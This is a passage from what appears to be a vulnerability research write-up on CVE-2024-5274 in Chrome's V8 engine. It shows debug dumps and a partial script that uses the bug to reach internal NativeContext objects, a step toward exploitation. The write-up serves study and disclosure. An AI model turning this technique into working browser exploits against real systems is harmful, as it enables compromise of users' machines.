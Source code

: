 The output result is surprising:

```javascript
DebugPrint: 0xf9000d4089: [JSGlobalObject] in OldSpace
 - map: 0x00f9000d8395 <Map[20](HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x00f900092b7d <Object map = 0xf9000d46a5>
 - elements: 0x00f900000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - native context: 0x00f9000c3c2d <NativeContext[281]>
 - global proxy: 0x00f9000c3bf5 <JSGlobalProxy>
 - properties: 0x00f9000e0bbd <GlobalDictionary[261]>
 - All own properties (excluding elements): {
   Uint8Array: 0x00f9000c5be1 <JSFunction Uint8Array (sfi = 0xf90008c131)> (data, dict_index: 30, attrs: [W_C])
   ...
```

Where does this `JSGlobalObject` come from?

The answer lies in the [NativeContext](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=704). By skipping a layer of the Function Context, we loaded from an outer layer of the expected context, which is the `NativeContext`.

Let's slightly modify the script to dump all objects in the `NativeContext`:

```javascript
let o0, o1, o2, o3, ...
function f1() {
  function hax() {
    %DebugPrint(o0);
    %DebugPrint(o1);
    %DebugPrint(o2);
    // ...
  }
// ...
```

The corresponding source code for these objects can be found [here](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=44). The dumped [results](https://github.com/DarkNavySecurity/PoC/blob/main/CVE-2024-5274/native_context_objs.txt) have also been made public.

### Playing with NativeContext

At this point, we can arbitrarily access objects within the `NativeContext`, which includes many objects that are normally inaccessible during JavaScript execution. For example, we can directly access a `FixedDoubleArray` within a double-typed array (the structure that actually stores the elements).

```C
// o155 in slot 157
DebugPrint: 0x272f000d1ba1: [FixedDoubleArray] in OldSpace
 - map: 0x272f0000090d <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 64
        0-63: 0
0x272f0000090d: [Map] in ReadOnlySpace
 - type: FIXED_DOUBLE_ARRAY_TYPE
 - instance size: variable
 - elements kind: HOLEY_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f00000235 <null>
 - constructor: 0x272f00000235 <null>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
```
